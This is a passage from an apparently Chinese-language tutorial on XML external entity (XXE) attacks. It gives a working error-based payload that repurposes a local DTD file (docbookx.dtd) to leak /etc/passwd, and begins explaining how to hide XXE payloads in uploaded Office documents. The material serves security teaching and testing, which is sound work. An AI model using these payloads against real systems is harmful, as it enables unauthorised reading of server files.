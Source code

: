 在上述代码的执行过程中发生了以下事情：

-   定义一个名为 local\_dtd 的 XML 参数实体，其中包含服务器文件系统上已存在的外部 dtd 文件的内容。
-   重新定义名为 custom\_entity 的 XML 参数实体，该实体已在外部 DTD 文件中定义。实体被重新定义为包含已描述的，用于触发包含/etc/passwd 文件内容的错误消息。
-   由于 local\_dtd 实体的使用，外部 dtd 被覆盖，包括 custom\_entity 实体的新值。这将产生所需的错误消息。  
    （实际上，使用有 GNOME 桌面环境的系统通常在/usr/share/yelp/DTD/docbookx.dtd 文件里面有一个名为 ISOamso 的实体。）

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
    '>
    %local_dtd;
]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

[![img](assets/1698894099-968ce2c46f3ca5225ab7ede1a2a31115.png)](https://storage.tttang.com/media/attachment/2022/11/14/5590258d-8eed-42d4-b9ae-c9a712deab6a.png)

由于此技术使用了内部的 DTD，您需要首先找到一个可以用的 DTD。可以试试安装一个一样的操作系统和相关软件来浮现上面这个过程。

### [Office Open XML 解析器实现 XXE](#toc_office-open-xml-xxe)

许多 web 应用程序允许您上载 Microsoft Office 文档，然后从中解析一些详细信息。例如，您可能有一个 web 应用程序，允许您通过上传 XLSX 格式的电子表格来导入数据。有时，为了让解析器从电子表格中提取数据，解析器需要解析至少一个 XML 文件。

对此进行测试的方法是生成一个包含 XXE payload 的 Microsoft Office 文件，实现的步骤很简单。首先，创建一个空目录来解压缩文档，然后解压缩！

```bash
test$ ls
test.docx
test$ mkdir unzipped
test$ unzip ./test.docx -d ./unzipped/
Archive:  ./test.docx
  inflating: ./unzipped/word/numbering.xml
  inflating: ./unzipped/word/settings.xml
  inflating: ./unzipped/word/fontTable.xml
  inflating: ./unzipped/word/styles.xml
  inflating: ./unzipped/word/document.xml
  inflating: ./unzipped/word/_rels/document.xml.rels
  inflating: ./unzipped/_rels/.rels
  inflating: ./unzipped/word/theme/theme1.xml
  inflating: ./unzipped/[Content_Types].xml
```
